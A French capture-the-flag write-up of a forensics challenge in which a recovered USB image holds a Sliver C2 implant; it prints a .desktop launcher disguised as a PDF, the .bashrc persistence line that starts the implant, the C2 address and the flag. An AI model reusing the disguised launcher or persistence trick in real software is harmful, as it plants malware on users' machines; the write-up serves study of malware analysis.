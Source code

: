 # Silver

Difficulté : :star: :star:

Author: Mr.NOODLE

Catégorie : Forensics

## Enoncé

> Hey,
> 
> I received a flash drive in my mailbox. It appears that the person who sent me the package was aware that I was using Linux. However, the flash drive self-destructed before I was able to make an image of it. To get the flag, you have to go to the showcase site of the c2 in question.
> 
> This is real malware, so be careful when running it, use a vm for malware analysis
> 
> Checksum Sha256 of usb_drive.img : 8947e34165792040d86915aea29df01f5e65f49ccfd624032522720ffb87c379

## Solve

```shell
sha256sum usb_drive.img | grep 8947e34165792040d86915aea29df01f5e65f49ccfd624032522720ffb87c379
8947e34165792040d86915aea29df01f5e65f49ccfd624032522720ffb87c379  usb_drive.img
```

On doit chercher l'adresse d'un C2. De plus, le nom du chall fait penser au framework **Sliver**.

Première étape, on met dans autopsy l'image de la clé USB. Dans les *Deleted files* on peut trouver les fichiers suivant :
- firefox.elf
- important.pdf
- a.sh
- Important.pdf.desktop

`Important.pdf.desktop` :

```shell
cat 7-Important.pdf.desktop 
[Desktop Entry]
Encoding=UTF-8
Version=1.0
Type=Application
Terminal=False
Exec=bash ./.a.sh
Name=Important.pdf
Icon=.pdf.png
```

On comprend rapidement que le `important.pdf` sert à lancer le script `a.sh`. 

Ce script exécute `echo -e "# Launch the best browser\n~/.firefox &" >> ~/.bashrc` : Cette commande ajoute `~/.firefox &` à la fin du fichier `~/.bashrc`. Cette ligne de code exécute le navigateur web Firefox en lançant un processus en arrière-plan (&). Il renomme/déplace `firefox.elf` en `~/.firefox`.

La commande `~/.firefox &` sera exécutée à chaque fois qu'un nouveau shell interactif est lancé. Cela signifie que chaque fois qu'un utilisateur ouvre un terminal, le binaire sera lancé en arrière-plan.

Il faut donc analyser notre **elf**. Un `strings` sur l'ELF permet de vérifier notre hypothèse quant à la technologie utilisé pour le C2 (https://github.com/BishopFox/sliver) : 

```
strings firefox.elf

[...]
B/Z-github.com/bishopfox/sliver/protobuf/sliverpbb
[...]
```

Le binaire semblait un peu corrompu et il était impossible pour moi d'obtenir un résultat dans ghidra. J'ai donc décider de faire une anlyser dynamique (plus simple) pour obtenir l'IP du C2. Dans une VM, on lance le binaire avec Wireshark et on observe la connexion HTTP sur le port 443 avec l'IP.

![](./img/wireshark.png)

On se rend sur l'IP:PORT : `http://178.62.67.181:443/`

On a l'image avec le flag :

![](./img/flag.png)

**Flag PWNME{1_L0v3_U53_C2}**